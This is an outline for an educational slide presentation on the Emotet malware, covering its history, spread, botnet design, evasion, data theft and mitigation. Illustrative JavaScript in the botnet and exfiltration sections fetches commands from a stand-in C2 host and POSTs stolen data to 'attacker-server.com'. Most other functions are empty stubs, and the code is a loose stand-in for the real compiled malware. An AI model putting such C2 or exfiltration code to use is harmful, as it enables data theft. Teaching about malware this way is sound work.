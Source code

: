 
## Table of Contents


### Introduction and History:

- **Slide 1:** Title and brief overview of Emotet (Text).
- **Slide 2:** Historical timeline or infographic depicting Emotet's evolution (Image).
- **Slide 3:** Key milestones in Emotet's development (Text and possibly Images).

### Propagation Methods:

- **Slide 1:** Title and explanation of Emotet's propagation methods (Text).
- **Slide 2:** Visual representation of a typical Emotet spam email (Image).
- **Slide 3:** Diagram showing how Emotet spreads through malicious links and attachments (Image).

### Modular Architecture and Botnet Infrastructure:

- **Slide 1:** Title and explanation of Emotet's modular architecture (Text).
- **Slide 2:** Diagram illustrating Emotet's modular components (Image).
- **Slide 3:** Visualization of Emotet's botnet structure (Code).

**Code Block Example for Slide 3 (Modular architecture in JavaScript):**

```javascript
// Example of Emotet's Botnet Communication
function communicateWithC2Server() {
    const c2Server = "http://malicious-c2.com";
    const payload = "data_to_send";

    // Code to establish communication with the C2 server
    fetch(`${c2Server}/command?data=${payload}`)
        .then(response => response.text())
        .then(data => {
            // Code to process and execute received commands
            if (data === "download_payload") {
                downloadMalwarePayload();
            } else if (data === "spread_malware") {
                spreadMalware();
            }
        })
        .catch(error => {
            // Handle communication errors
            console.error("Error communicating with C2 server:", error);
        });
}

// Example of Emotet's Payload Download Functionality
function downloadMalwarePayload() {
    // Code to download and execute additional malware payloads
    // ...
}

// Example of Emotet's Malware Spreading Functionality
function spreadMalware() {
    // Code to spread Emotet to other vulnerable systems
    // ...
}

// Call the communication function to interact with the C2 server
communicateWithC2Server();
```

### Persistence and Evasion Techniques:

- **Slide 1:** Title and explanation of how Emotet maintains persistence (Text).
- **Slide 2:** Visualization of Windows Registry modifications (Image).
- **Slide 3:** Explanation of Emotet's evasion tactics with examples (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Evasion Tactics in JavaScript):**

```javascript
// Example of Emotet's Polymorphic Code
function polymorphicCode() {
    // Code to generate polymorphic variations
    // ...
}

// Example of Emotet's Anti-Sandboxing Techniques
function antiSandbox() {
    // Code to detect sandboxing environments
    // ...
}

// Example of Emotet's Process Hollowing
function processHollowing() {
    // Code to perform process hollowing
    // ...
}

// Call the evasion functions
polymorphicCode();
antiSandbox();
processHollowing();
```

### Data Theft and Exfiltration:

- **Slide 1:** Title and overview of data theft by Emotet (Text).
- **Slide 2:** Visual representation of data exfiltration (Image).
- **Slide 3:** Risks associated with data breaches and impact (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Data Exfiltration in JavaScript):**

```javascript
// Example of Emotet's Data Exfiltration Code
function exfiltrateData(dataToSteal) {
    const maliciousServer = "http://attacker-server.com";

    // Code to send stolen data to the attacker's server
    fetch(maliciousServer, {
        method: "POST",
        body: dataToSteal,
    })
    .then((response) => {
        if (response.status === 200) {
            // Successful exfiltration
            console.log("Data exfiltration successful.");
        } else {
            // Exfiltration failed
            console.error("Data exfiltration failed.");
        }
    })
    .catch((error) => {
        // Handle errors during data exfiltration
        console.error("Error during data exfiltration:", error);
    });
}

// Example usage of the data exfiltration function
const dataToSteal = "Sensitive data to be stolen";
exfiltrateData(dataToSteal);
```

### Impact and Dangers:

- **Slide 1:** Title and introduction to Emotet's impact (Text).
- **Slide 2:** Statistics or graphs showing the scale of Emotet's impact (Graphs/Images).
- **Slide 3:** Real-world examples of Emotet-related incidents (Text).

### detection and Mitigation:

- **Slide 1:** Title and strategies for preventing Emotet infections (Text).
- **Slide 2:** Visual representation of email filtering and user education (Images).
- **Slide 3:** Tips for keeping software up-to-date and safe browsing (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Software Update Tips in JavaScript):**

```javascript
// Example JavaScript code for updating software
const updateSoftware = () => {
    // Code to check for and apply software updates
    // ...
};
```